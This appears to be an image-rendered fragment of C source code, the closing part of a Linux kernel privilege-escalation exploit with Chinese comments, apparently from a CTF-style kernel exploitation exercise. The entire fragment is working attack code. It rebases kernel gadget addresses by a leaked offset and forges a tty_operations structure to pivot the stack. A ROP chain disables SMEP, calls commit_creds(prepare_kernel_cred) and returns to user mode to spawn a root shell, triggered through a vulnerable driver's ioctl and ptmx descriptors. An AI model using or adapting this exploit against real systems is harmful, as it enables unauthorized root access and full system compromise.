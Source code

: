 ```c
    printf("[*] offset: %p\n", offset);
    commit_creds = (void *) ((size_t) commit_creds + offset);
    prepare_kernel_cred = (void *) ((size_t) prepare_kernel_cred + offset);
    pop_rdi_ret += offset;
    mov_cr4_rdi_pop_rbp_ret += offset;
    swapgs_pop_rbp_ret += offset;
    iretq += offset;
    xchg_eax_esp_ret += offset;

    // 伪造 tty_operations 结构体
    struct tty_operations *fake_tty_operations = (struct tty_operations *) malloc(sizeof(struct tty_operations));
    memset(fake_tty_operations, 0, sizeof(struct tty_operations));
    fake_tty_operations->ioctl = (void *) xchg_eax_esp_ret;
    fake_tty_operations->close = (void *) xchg_eax_esp_ret;

    // 布局 rop 链
    save_status();
    size_t rop_chain[] = {
            pop_rdi_ret,
            0x6f0,
            mov_cr4_rdi_pop_rbp_ret,
            0,
            (size_t) get_root,
            swapgs_pop_rbp_ret,
            0,//padding
            iretq,
            (size_t) get_shell,
            user_cs,
            user_rflags,
            user_sp,
            user_ss
    };

    // 触发漏洞前先把 rop 链拷贝到 mmap_base
    void *mmap_base = (void *) (xchg_eax_esp_ret & 0xffffffff);
    void *mmap_addr = mmap(mmap_base - 0x1000, 0x30000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    printf("[*] mmap_addr: %p\n", mmap_addr);
    memset(mmap_addr, 0, 0x30000);
    memcpy(mmap_base, rop_chain, sizeof(rop_chain));

    // 批量修改 tty_struct 的 ops 指针
    *(size_t *) &p.buf[0x18] = (size_t) fake_tty_operations;
    for (p.idx = 0; p.idx < BOF_NUM; p.idx++) {
        ioctl(bof_fd, 8, &p);
    }

    // 调用 tty_operations.ioctl 和 tty_operations.close 触发漏洞
    for (int i = 0; i < PTMX_NUM; ++i) {
        ioctl(ptmx_fds[i], 0, 0);
    }

    return 0;
}

```
